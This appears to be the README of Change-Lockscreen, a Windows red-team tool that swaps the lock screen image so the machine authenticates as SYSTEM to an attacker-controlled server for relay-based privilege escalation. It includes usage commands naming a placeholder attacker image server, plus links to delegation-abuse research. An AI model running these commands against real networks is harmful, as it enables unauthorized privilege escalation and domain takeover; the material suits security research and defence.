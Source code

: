 # Change-Lockscreen

Change-Lockscreen is a tool to trigger network authentications as SYSTEM by changing the Windows lock screen image from the command line to perform privilege escalation attacks such as the one described in the post linked below:
*  https://research.nccgroup.com/2019/08/20/kerberos-resource-based-constrained-delegation-when-an-image-change-leads-to-a-privilege-escalation

# Features

By default, Windows 10 has a feature called Windows Spotlight. It downloads and displays lock screen images automatically.
*	When this feature is enabled, Change-Lockscreen will disable it and establish the image specified in the arguments
*	Otherwise if the user has a custom lock screen image, Change-Lockscreen will be in charge to run a backup of it, trigger the network authentication, and establish it again

Note: while the PowerShell version of the tool works reliably, the C# version sometimes fails to restore the original image.

# Usage 

```
Change-Lockscreen -FullPath \\[imageserver]@[port]\[fakePath]\[image.jpg]
Change-Lockscreen -Webdav \\[imageserver]@[port]\ 
```

[![Watch the video](https://i.ytimg.com/vi/NsDQH1H89FQ/maxresdefault.jpg)](https://youtu.be/NsDQH1H89FQ)

# Authors
* Simone Salucci
* Daniel López Jiménez

# Acknowledgements

* https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
* https://gist.github.com/3xocyte/4ea8e15332e5008581febdb502d0139c
* https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
* https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/
* http://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/
* https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/

